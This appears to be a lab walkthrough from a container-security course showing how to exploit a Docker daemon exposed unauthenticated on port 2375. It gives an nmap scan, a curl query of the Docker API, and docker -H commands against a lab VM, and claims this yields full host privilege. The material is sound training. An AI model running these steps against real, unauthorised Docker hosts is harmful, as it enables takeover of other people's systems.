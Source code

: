 # Exploiting docker misconfiguration

In this scenario we will see that misconfigured `docker` with port 2375 running and exposed. We will use this with docker runtime host option to access the containers, images and gain host system privileges.

> The Docker daemon can listen for Docker Engine API requests via three different types of Socket `unix`, `tcp`, and `fd`. To access remotely we have to enable `tcp` socket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon. It is conventional to use port `2375` for un-encrypted, and port `2376` for encrypted communication with the daemon.

* Scan the `2375` and `2376` port using nmap from student VM

```bash
nmap -p 2375,2376 -n 192.168.56.4 -v
```

![nmap scan for port 2375](images/misconfig-nmap-scan.png)

* We can query the docker API using `curl`

```bash
curl 192.168.56.4:2375/images/json | jq .
```

![accessing images via curl](images/misconfig-curl-images.png)

* Attacker can abuse this by using the docker daemon configuration to access the host system's docker runtime

```bash
docker -H tcp://CTFVMIP:2375 ps
docker -H tcp://CTFVMIP:2375 images
```

![docker tcp host usage](images/docker-tcp-host-access.png)

* Now, we have full privilege over the host system :)
